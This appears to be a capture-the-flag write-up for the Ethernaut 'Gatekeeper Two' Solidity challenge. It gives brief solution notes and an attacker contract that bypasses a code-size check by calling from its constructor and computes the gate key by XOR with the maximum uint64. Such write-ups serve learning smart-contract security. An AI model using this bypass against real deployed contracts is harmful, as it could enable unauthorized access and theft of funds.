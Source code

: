 # Gatekeeper Two Ethernaut

## Goals

=> Be able to pass all gates to call enter and get the entrant

### Hints

- None

### Solution

- Gate one and two are passed by conduction the attack through a contract with no code (conduct attack within constructor)

- You just need to calculate the key by splitting up the comparison for gateThree and pass in the calculated key

### Attacker Contract

```solidity
contract Hack {
    constructor(address _gateKeeper) {
        // gate one and two are passed by conduction the attack through a contract with no code (conduct attack within constructor)
        GatekeeperTwo gatekeeper = GatekeeperTwo(_gateKeeper);
        // gate three can be calculated
        // uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max
        uint64 key64 = uint64(
            bytes8(keccak256(abi.encodePacked(address(this))))
        );
        bytes8 key = bytes8(key64 ^ type(uint64).max);
        gatekeeper.enter(key);
    }
}
```
